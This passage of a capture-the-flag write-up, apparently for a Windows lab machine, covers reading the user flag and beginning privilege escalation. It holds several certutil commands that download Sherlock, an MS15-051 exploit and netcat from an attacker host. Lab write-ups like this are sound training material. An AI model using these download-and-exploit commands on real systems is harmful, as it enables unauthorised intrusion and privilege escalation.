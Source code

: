 I'm also user merlin, this means I can get the user flag.

## User Flag

---

With user merlin, I can get the user flag:

```bash
PS C:\Users\merlin\Desktop> type user.txt
e2**************************4a2f
```

# Privilege Escalation

---

To find vulnerabilities, I use sherlock:

```bash
C:\Users\merlin> cd Downloads
C:\Users\merlin\> certutil.exe -urlcache -f http://10.10.17.28/sherlock.ps1 sherlock.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.
C:\Users\merlin\> dir

    Directory: C:\Users\merlin\

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         8/31/2021   1:52 PM      16659 sherlock.ps1
```

When I run the script, it outputs this vulnerability:

```
Title : ClientCopyImage Win32k
MSBulletin : MS15-051
---snip---
```

You can find the exploit on this webpage:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/37049)

This exploit takes another command as an input, so I transfer the exploit and netcat to the machine:

```bash
PS C:\Users\merlin\Downloads> certutil.exe -urlcache -f http://10.10.17.28/exploit.exe exploit.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\Users\merlin\Downloads> certutil.exe -urlcache -f http://10.10.17.28/nc64.exe nc.exe        
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\Users\merlin\Downloads> dir

    Directory: C:\Users\merlin\Downloads

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         8/31/2021   1:59 PM       6144 exploit.exe                       
-a---         8/31/2021   2:00 PM      45272 nc.exe                            
-a---         8/31/2021   1:52 PM      16659 sherlock.ps1
```
